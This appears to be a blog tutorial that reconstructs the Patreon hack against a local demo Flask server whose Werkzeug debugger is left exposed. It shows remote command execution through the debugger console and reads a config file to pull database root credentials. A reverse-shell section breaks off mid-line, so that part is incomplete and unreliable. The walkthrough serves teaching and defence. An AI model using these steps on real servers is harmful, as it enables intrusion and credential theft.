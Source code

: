 # Intro

In my [previous post in this series](http://raphael-enochian.tumblr.com/post/133000006820/go-ahead-expose-your-web-debugger-to-the), I gave a rundown on the Patreon hack. I analyzed the attack, security breaches, the source code, and the data dump. In this article, I will reconstruct and demonstrate the exploit itself used by the hackers by attacking  a demo [`Flask`](http://flask.pocoo.org/) server.

> **DISCLAIMER**: *Do not attempt to run this exploit against a server that you don't personally own, or explicitly have permission to do so. I am not liable for any damages or stupidity caused by this demo.*

## Some terms

* **Web framework** - Explaining this is a bit beyond the scope of this article, but an excellent explanation is here: [What is a Web Framework?](http://stackoverflow.com/a/4507543)
* **[`Flask`](http://flask.pocoo.org/)** - A web framework for building web applications with the Python programming language. It's extremely light-weight, small, modular and extensible, and is therefore called a *microframeworks*. Web microframeworks have been gaining a lot of traction in the past few years, over older monolithic frameworks like `Ruby on Rails` and `Django`. Other popular examples of web microframeworks include `Sinatra` (Ruby) and `Node.js` (JavaScript). Flask well established in the web developer community, powering either wholly or partially many popular websites: Pinterest, Twilio, Linked-In, Apple, and Obama's 2012 Election website.
* **[`Werkzeug`](http://werkzeug.pocoo.org/)** - the utility library for Flask that is used (or should be used) only in the development environment. It comes with a powerful in-browser debugger, and has services for hosting a local development web server.

## Setting the Stage

This exploit uses the `Werkzeug` version 0.9.6 -- the same version of Werkzeug running on the Patreon servers (according to the source code dump's `venv` directory). This hack may not work on newer version of `Werkzeug`, which has since been updated with some security changes, like a debugger PIN code ([changelog for Werkzeug 0.11](https://github.com/mitsuhiko/werkzeug/blob/master/CHANGES] ), line 54).

Let's begin by creating a basic Flask app with two endpoints: `index` and `error`.

`my-flask-app.py`

    from flask import Flask
    app = Flask(__name__)

    @app.route('/')
    def index():
        return "Hello, hacker!"

    @app.route('/error')
    def my_error():
        return 3 / 0

    app.run(debug=True, port=7777)

Next, we run the server.

    $ python my-flask-app.py
     * Running on http://127.0.0.1:7777/
     * Restarting with reloader

We now have a fully-fledged Flask application running with a WSGI server.

Open up a web browser and navigate to `http://127.0.0.1:7777`

![Working flask server](./first-hello-world.png)

## Enter Werkzeug Debugger
Because we specified the `debug=True` flag at runtime, the Werkzeug debugger is now active. That means, if any errors occur server-side, the powerful Werkzeug debugger is exposed. There are some scenarios when may occur:

 * Faulty server-side code
 * Unhandled exceptions
 * Environment or other state that the server-side code assumes has changed
 * Client-side intervention by passing faulty data that the app doesn't know how to handle (or again, unhandled exceptions)

All's said and done, it's just best practice to simply **disable** the Werkzeug debugger when the server goes live -- for whatever reason, Patreon didn't.

For simplicity's sake, we'll be invoking by faulty server-side code in order to invoke the Werkzeug debugger. When the user navigates to the `error` endpoint, the server will try to divide 3 by 0, raising a `ZeroDivisionError`.

It's pretty powerful though, potentially useful for a developer:

![Werkzeug](./second-werkzeug.png)

As you can see, Werkzeug allows you to open up an **interactive shell** right there in the browser. This shell has the ability to run arbitrary code against a Python interpreter, and has access to all the underlying server and system information.

## Remote Code Execution inside the browser

When your application exposes the ability for the end-user to inject arbitrary code, it's **game over**. I could just call it a day right here, but let's continue in our exploitation.

![](./third-werkzeug.png)
And we can run arbitrary code indeed. Here I've imported the `os` module, which allowed you to inspect and manipulate the underlying system. I then invoked a command to view all of the environment variables, thereby exposing details about the username, the shell, the system, etc. You can also use the `os` module to run commands directly against the system:

    >>> cmd_output = os.popen('ls -la').read()
    >>> print(cmd_output)
    my-flask-app.py
    server.conf


At this point, provided you know some basic Python, or how to do a Google search by Python commands, it's *trivial* to exploit this system.

But first, let's simplify our *remote code execution* by defining a `lambda`, so we're not typing `os.popen(<command>).read()` every time. Make sure to send your command as a `string`.

    >>> rex = lambda cmd, os=os: print(os.popen(cmd).read())
    >>> rex('uname -a')
    Linux my-computer 4.2.5-1-ARCH #1 SMP PREEMPT Tue Oct 27 08:13:28 CET 2015 x86_64 GNU/Linux

Cool. The lambda works.
Now we want to find the login credentials to access the MySQL database, in order to get all of the user data. We by inspecting that shiney `server.conf`files we saw when we first invoked `ls`.

    >>> rex('cat server.conf')
    PROJECT_NAME = 'My Flask App'
    SQLALCHEMY_DATABASE_URI = 'mysql://root:root@10.0.2.15:3306/my_flask_app'

`SQLALCHEMY_DATABASE_URI` is a connection string that the Flask app uses to connect to its database. This connection string has all the information we need to get unauthorized access to the MySQL server: username, password, IP address, port, and database name.

Let me just pause right here and say that it's a **terrible** practice to store your passwords and configuration files in plaintext. Had Patreon encrypted their configuration files, there's a good chance the hackers wouldn't have gained access to the MySQL database (and user info), and the hack would have stopped right here.

## Reverse Shell through Werkzeug Debugger, and pivot

Let's assume Patreon's database as actually inside some internal network that isn't exposed to the public Internet: `10.0.2.15` At this point we do what's known as **pivoting** -- using a compromised machine to attack another machine.

First, let's enter into a persistent interactive BASH session.

    >>> rex('which bash')
    /usr/bin/bash
    >>> import subprocess
    >>> p = sub


## Final thoughts
Do realize that all of these steps above can be automated, meaning any scriptkiddie with `Metasploit`, or any bot, can perform these.

Don't expose your debugger in production!
